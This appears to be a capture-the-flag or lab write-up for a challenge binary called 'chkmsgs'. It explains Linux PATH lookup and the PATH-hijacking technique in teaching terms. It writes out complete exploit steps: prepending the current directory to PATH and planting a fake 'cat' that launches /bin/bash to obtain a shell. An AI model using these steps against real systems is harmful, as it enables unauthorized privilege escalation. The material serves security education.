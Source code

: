 ## chkmsgs.md

This one is tricky, and requires knowledge about how Linux and similar operating systems handle running binaries. When you run a command like `ls` for example, how does Linux know to run the `ls` executable that you want? Remember, these commands are all programs on the machine stored somewhere, and the operating system has to find them somehow

**If you were looking for a hint stop reading now**

In the Linux operating system, there are global variables that hold information. These variables are called environment variables, and one in particular holds information about where executables are stored on a system. This variable is called the `PATH`. In your terminal, you can print the `PATH` variable by running `echo $PATH`.

Prepend the path with the current directory  
`export PATH=.:$PATH`  
Create a file named `cat` with the string `/bin/bash` inside  
`echo "/bin/bash" > cat`  
Make the cat file executable  
`chmod u+x cat`  
Exploit  
`./chkmsgs`  
You can fix your PATH variable by restarting your terminal or running `export` and setting `PATH` back to the original string

**Why does this work?**  
Anytime you type a command, the operating system looks at the `PATH` variable and searches every directory listed in it for a program of the same name as the command. Once it finds one that matches, it runs it immediately. In other words, it runs the first one it finds. What you've done is created a *different* `cat` program, and made sure the OS finds your first by prepending the current directory to the `PATH` variable.
